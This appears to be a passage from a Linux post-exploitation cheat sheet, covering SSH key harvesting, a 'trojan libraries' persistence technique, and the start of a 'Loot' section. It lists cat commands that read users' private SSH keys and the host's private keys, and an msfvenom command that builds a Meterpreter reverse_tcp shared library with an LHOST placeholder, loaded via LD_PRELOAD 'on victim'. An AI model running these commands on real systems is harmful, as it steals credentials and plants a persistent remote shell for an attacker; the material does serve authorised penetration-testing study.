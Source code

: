 ### SSH Keys

Check all home directories

```
cat ~/.ssh/authorized_keys
cat ~/.ssh/identity.pub
cat ~/.ssh/identity
cat ~/.ssh/id_rsa.pub
cat ~/.ssh/id_rsa
cat ~/.ssh/id_dsa.pub
cat ~/.ssh/id_dsa
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/ssh/ssh_host_dsa_key.pub
cat /etc/ssh/ssh_host_dsa_key
cat /etc/ssh/ssh_host_rsa_key.pub
cat /etc/ssh/ssh_host_rsa_key
cat /etc/ssh/ssh_host_key.pub
cat /etc/ssh/ssh_host_key
```

### Bad path configuration

Requires user interaction

### Trojan Libraries
```
For persistance and potential privesc on older distros --

msfvenom -p linux/x64/mettle/reverse_tcp LHOST=INSERTIPADDRESS -f elf-so -o mettle.so
On victim:
export LD_PRELOAD=/mettle.so; ls

Check for libraries that can be intercepted:
ldd /usr/bin/app
LD_PRELOAD or LD_LIBRARY_PATH loaded before /lib
env | grep 'LD_\|RTL_'
```

------------------------------------------------------------------------




----------------------------- LOOT LOOT LOOT LOOT ----------------------




------------------------------------------------------------------------

## Loot

**Checklist**

